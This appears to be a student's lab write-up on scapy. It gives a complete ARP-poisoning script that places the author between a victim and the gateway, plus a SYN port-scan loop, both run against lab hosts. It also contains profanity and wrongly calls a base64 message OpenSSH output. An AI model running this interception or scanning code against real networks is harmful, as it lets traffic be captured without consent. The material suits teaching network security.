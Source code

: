 # Secure Admin Tools - Lab IV

## ARP Poisoning and Portscan

Install scapy
```bash
python3 -m pip install scapy
```

Start scapy
```bash
sudo scapy
```

> It took me f..ing 6 hours to understand and getting things ready for using this fu..ing sh.t of a fu..ing tool mother fu..er, I am so pissed !!

To simplify all the usage: We have got different python Classes for different packet types. At first we are going to create a Ethernet packet followed by a ARP packet. To append two layers, we will use the operator / To show all available fields of a packet we can use the function list(PACKET) where PACKET can be Ether or ARP or anything else available. At first we will use the command `arp -a` to list the local arp table of our server

```console
nichil@secat-02:~$ arp -a
? (192.168.130.1) at 00:50:56:c0:00:08 [ether] on ens33
? (192.168.130.128) at 00:0c:29:3a:31:c6 [ether] on ens33
_gateway (192.168.130.2) at 00:50:56:e3:fb:3c [ether] on ens33
```

> enable packet forwarding so the spoofed packets can be forwarded accordingly `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let's build up a broadcast ARP request

```console
>>> arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
>>> arpbc.show()
###[ Ethernet ]###
  dst= ff:ff:ff:ff:ff:ff
  src= 00:0c:29:3a:31:c6
  type= 0x806
###[ ARP ]###
     hwtype= 0x1
     ptype= 0x800
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 00:0c:29:3a:31:c6
     psrc= 192.168.130.128
     hwdst= None
     pdst= 192.168.130.2

>>> response=sendp(arpbc)
.
Sent 1 packets.

>>> response=srp(arpbc, timeout=2)
Begin emission:
...Finished sending 1 packets.
*
Received 4 packets, got 1 answers, remaining 0 packets
>>> response
(<Results: TCP:0 UDP:0 ICMP:0 Other:1>,
 <Unanswered: TCP:0 UDP:0 ICMP:0 Other:0>)
>>> response[0]
<Results: TCP:0 UDP:0 ICMP:0 Other:1>
>>> response[0][0]
(<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>,
 <Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
>>> response[0][0][0]
<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>
>>> response[0][0][1]
<Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>
>>> response[0][0][1].hwsrc
'00:50:56:e3:fb:3c'
```

So we can shorten this down to following code lines for both gateway and target server

```
# gateway
arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
arpbcrsp=srp(arpbc)
arpbcrsp[0][0][1].hwsrc

```

Knowing this information we can write a short script to spoof ARP continiously

```python
from scapy.config import conf
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import srp, sendp, send
from time import sleep

__author__ = "nichil"
__date__ = "12.04.2020"
__github__ = "https://github.com/starvis"


def main():
    conf.verb = False
    spoof_ip = "192.168.130.2"
    spoof_mac = get_mac(spoof_ip)
    victim_ip = "192.168.130.129"
    victim_mac = get_mac(victim_ip)

    try:
        print("Sending spoofed arp")
        while True:
            spoof(victim_ip=victim_ip, spoof_ip=spoof_ip, sppof_mac=spoof_mac)
            spoof(victim_ip=spoof_ip, spoof_ip=victim_ip, sppof_mac=victim_mac)
            sleep(1)

    except KeyboardInterrupt:
        print("Healing victim")
        heal_victim(victim_ip, victim_mac, spoof_ip, spoof_mac)
        heal_victim(spoof_ip, spoof_mac, victim_ip, victim_mac)


def heal_victim(tip, tmac, sip, smac):
    packet = ARP(op="is-at", pdst=tip, hwdst=tmac, psrc=sip, hwsrc=smac)
    send(packet)


def spoof(victim_ip, spoof_ip, sppof_mac):
    faulty_arp_reply = ARP(op="is-at", psrc=spoof_ip, pdst=victim_ip, hwdst=sppof_mac)
    send(faulty_arp_reply)


def get_mac(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", pdst=ip)
    arp_broadcast_response = srp(arp_broadcast)
    return arp_broadcast_response[0][0][1].hwsrc


if __name__ == "__main__":
    main()

```

In order to test the spoofing I am going to use tcpdump and nc. I will listen on Port 6969 on theMachine and open a connection from secat-02 to theMachine on Port 6969. As the Mac address on the ARP table of secat-02 for the gateway got swapped with mine, I will receive the messages sent over port 6969 on secat-01 which is the MITM in this scenario. The packets will be forwarded because I have enabled ipv4 forwarding. The packets are captured with tcpdump using the -X arg to see ASCII encoded data. 

![arp_spoof_proof.PNG](arp_spoof_proof.PNG)


## Portscan

Login to its.fh-campuswien.ac.at is the one which was set in lab3

The code in the instructions does not work for me so I wrote my own
```
sudo /etc/scapy/run_scapy << EOF
conf.verb = False
ip = '172.16.51.142'
ports = []
for i in range(1,10000):
    packages = IP(dst=ip, ttl=43) / TCP(dport=i, flags='S')
    results, unanswered = sr(packages, timeout=10, iface='ens18')
    for result in results:
        if result[1][1].flags == 'SA':
            ports.append(result[1][1].sport)

print(ports)
    

EOF
```
The resulting Ports were [22, 7538]  
Webserver is listening on Port 7538  
Webservers output of a GET Request is Q29uZ3JhdHVyYXRpb24sIGEgd2lubmVyIGlzIHlvdSE=  
This seems to be an output from openssh, it is not an hash-digest. We used it in the first lab.  